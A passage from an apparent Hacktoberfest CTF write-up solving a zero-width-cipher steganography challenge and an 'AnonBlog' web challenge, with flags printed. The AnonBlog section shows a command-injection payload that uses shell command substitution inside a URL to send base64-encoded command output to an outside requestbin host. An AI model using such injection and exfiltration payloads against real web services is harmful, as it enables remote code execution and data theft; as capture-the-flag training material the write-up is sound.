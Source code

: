 ```hacktoberfest_ctf{V3ry_34sy_RSA}```
>Maybe it's just that I cannot be printed 🙁

First I thought the challenge was incomplete. Later I found out that there were unprintable characters in the challenge description between the letter M and y through inspecting element containing challenge description.
>M[unprintable character here]y

At first I thought this was some whitespace encoding but it turned out to be something else.Since I had no idea what this was I checked the hints and found out that it was zero width cipher.
And through the help of an [online zero width decoder](https://offdev.net/demos/zwsp-steg-js) I got the flag

```hacktoberfest_ctf{zwsp_1s_1nv1s1bl3}```


# AnonBlog

Challenge Description
>There is a place Anonymous blog, people say you cannot share link there because it's their policy. They say sharing link leads to many security issues, though I think it's just opposite based on their specific context(their new feature)

http://nicehellonice-env.eba-p2umpa4t.us-east-1.elasticbeanstalk.com

It was a site where we can add posts through /post.
Cross Site Scripting was possible. At first I thought we use an xss payload to grab the cookie of the admin but it seemed like xss was just a rabbithole.

Checking the robots.txt of the site we find /features.txt that says
```
Newly added feature: Special Hyper Linking!
 - Automatically converts links into a hyperlink.
 - Try setting any URL in the Content, and see it!!
 NOTE: For some dumb reason, link-sharing was not allowed since day 1.
    But due to requests from the users we made it available for it. But
    you still cannot share links, so this application clones the URL
    locally (using curlY "ree--quest-TOR")*, then returns it to you
    from the application itself.
----------
*pronounced "curly requester"
```
So in my head I thought it as of
`curl https://site`
being executed whenever http/https word is used. So next step was to get code execution.

At first I tried common bypasses like `&&` `||` but since the output was not  being shown, I was not sure if the command was being executed.

So I thought of another approach to send command output to a url. I quickly setup a request bin url and crafted my payload using command substitution like

`http://requestbin.net/r/1bvgn5b1/?output=$(command|base64)`
So what this will look like 

```sh
curl http://requestbin.net/r/1bvgn5b1/?output=$(command|base64)
$(command|base64) get executed and base64 output would be appended to output =
curl http://requestbin.net/r/1bvgn5b1/?output=base64output
```
